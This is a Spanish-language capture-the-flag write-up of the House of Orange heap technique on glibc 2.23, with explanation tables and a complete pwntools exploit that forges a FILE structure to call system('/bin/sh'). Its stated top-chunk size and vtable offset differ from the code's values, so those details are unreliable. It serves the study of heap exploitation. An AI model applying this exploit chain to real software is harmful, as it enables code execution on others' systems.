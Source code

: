 # House Of Orange
```
  Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    Stripped:   No
    Debuginfo:  Yes
```

Tal y como en `House of Force` hay un heap overflow que nos permite sobreescribir el top chunk. Esta vez las asignaciones con malloc no son de tamaño arbitrario. La version de glibc es 2.23 asi que podemos implementar la tecnica clasica que da nombre al reto.

Pasos:
1. Hacemos un "alloc (small)" y sobreescribimos con el overflow en este chunk en campo size del top chunk para que contenga un valor menor al espacio solicitado en un "alloc (large)". El nuevo tamaño que usamos, `0xfe01`, cumple ciertas condiciones necesarias:

    |                                                              |                                      |                  
    |--------------------------------------------------------------|--------------------------------------|
    | ((unsigned long) (old_size) >= MINSIZE                       | Debe ser al menos 0x20 bytes         |
    |  prev_inuse (old_top)                                        | Debe tener el byte PREV_INUSE activo |
    | ((unsigned long) old_end & (pagesize - 1)) == 0              | La direccion de top_chunk + size debe estar alineado a la pagina: (top_chunkaddr + size) & 0xfff == 0) |

2. Hacemos un "alloc (large)". Esto provoca que el top chunk se libere y vaya a `unsortedbin`.
3. Sobreescribimos de nuevo el top chunk:
  + Cambiamos su campo size a 0x61.
  + Cambiamos su campo bk a `_IO_list_all` - 0x10.
  + Creamos una estructura _IO_FILE_plus falsa con algunos valores especificos:

| Dirección relativa             | Descripción                                                                 |
|-------------------------------|------------------------------------------------------------------------------|
| top chunk                     | Cadena "/bin/sh\x00"                                                        |
| top chunk + 0x08              | Valor 0x61                                                                  |
| top chunk + 0x18              | Dirección de `_IO_list_all - 0x10`                                          |
| top chunk + 0x20              | Campo `_IO_write_base = 2`                                                  |
| top chunk + 0x28              | Campo `_IO_write_ptr = 3`                                                   |
| top chunk + 0x68              | Entrada falsa de vtable                                                     |
| top chunk + 0x70              | Entrada falsa de vtable                                                     |
| top chunk + 0x78              | Entrada falsa de vtable                                                     |
| top chunk + 0x80              | Dirección de `system`                                                       |
| top chunk + 0xc0              | Campo `_mode = 0`                                                            |
| top chunk + 0xd0              | Campo `vtable = top chunk + 0x68`                                           |

4. Hacemos un "alloc (small)" que realiza varias cosas:
  + Dado que hay un chunk en `unsortedbin` y se reserva un chunk pequeño malloc intenta moverlo a una `smallbin`, especificamente a `smallbin[4]`, que contiene los chunks de tamaño 0x5a-0x62 bytes.
  + Al ocurrir el *unlinking* parcial en `unsortedbin`: `p->bk->fd = p->fd` o lo que es lo mismo `_IO_list_all - 0x10 + 0x10 = main_arena + 88`. 
  ```
  /* Cabe destacar que p->fd puede contener cualquier cosa porque cuando malloc intenta satisfacer una solicitud dividiendo
     este chunk libre el valor en chunk->bk->fd se sobrescribe con la dirección de la unsortedbin */

  /* Ahora el primer elemento de la lista de file streams es esa direccion de libc, necesitamos que su campo `_chain`, es decir,
 `main_arena + 88 + 0x68`, sea igual a la direccion de nuestro top chunk. */
 
  /* Al haber colocado el top chunk en `smallbin[4]` y ser el unico elemento entonces `smallbin[4]` (que es la misma direccion que `main_arena + 88 + 0x68`)
  contiene la direccion de nuestro chunk. Ya tenemos nuestra estructura en la cadena de file streams. */
 ```
  + Realiza verificaciones de sanidad sobre nuestro chunk, falla y llama a `abort()` que limpia todos buffers de los punteros FILE por medio de invocar a ` _IO_flush_all_lockp`, que al final llama a `_IO_OVERFLOW`.
 ```
  /* IO_OVERFLOW es el cuarto elemento de la vtable a la que apunta un file stream (lo reemplazamos por system en nuestra vtable falsa) y toma como argumento
  la direccion del file stream, de modo que IO_OVERFLOW(top_chunk_addr) acaba siendo system("/bin/sh\x00") */

  /* No obstante IO_OVERFLOW es llamado si se cumplen estas condiciones:
   * fp->_mode <= 0 && 
   * fp->_IO_write_ptr > fp->_IO_write_base
   Que ya satisficimos. */
 ```

## Exploit 

``` py
from pwn import *
r = process("./house_of_orange")
libc = ELF("./libc.so.6")


r.recvuntil(b"@ ")
libc.address = int(r.recv(14).strip().ljust(8,b"\x00"),16) - 0x675a0

r.recvuntil(b"@ ")
heap_base = int(r.recv(14).strip().ljust(8,b"\x00"),16)

# Phase 1: Put the top chunk in the unsorted bin
r.sendlineafter(b">",b"1")
r.sendlineafter(b">",b"3")
r.sendlineafter(b"data:",b"A" * 16 + p64(0) + p64(0x0fe1))
r.sendlineafter(b">",b"2")

# Phase 2: Modify the size of the top chunk to make it fit in smallbin[4]
#          Modify the top chunk bk pointer in unsorted bin to overwrite _IO_list_all with a main_arena relative address
#          Craft a fake FILE struct 

# 0x20: _IO_write_base = 2
# 0x28: _IO_write_ptr = 3
# 0x68: fake vtable
# 0xc0: _mode = 0
# 0xd8: vtable = top_chunk_address + 0x68

r.sendlineafter(b">",b"3")
payload = flat({
    0x0: [b"/bin/sh\x00", p64(0x61),
          p64(0), p64(libc.symbols['_IO_list_all'] - 0x10),
          p64(2), p64(3)],                                          
    0x68: [p64(0) * 3, p64(libc.symbols['system'])],      
    0xc0: [p64(0)],                             
    0xd8: [p64(heap_base + 0x20 + 0x68)],
    },filler="b\x00")
r.sendlineafter(b"data:", b"A" * 16 + payload)

# Phase 3: Trigger abort()
r.sendlineafter(b">",b"1")
r.interactive()
```




     
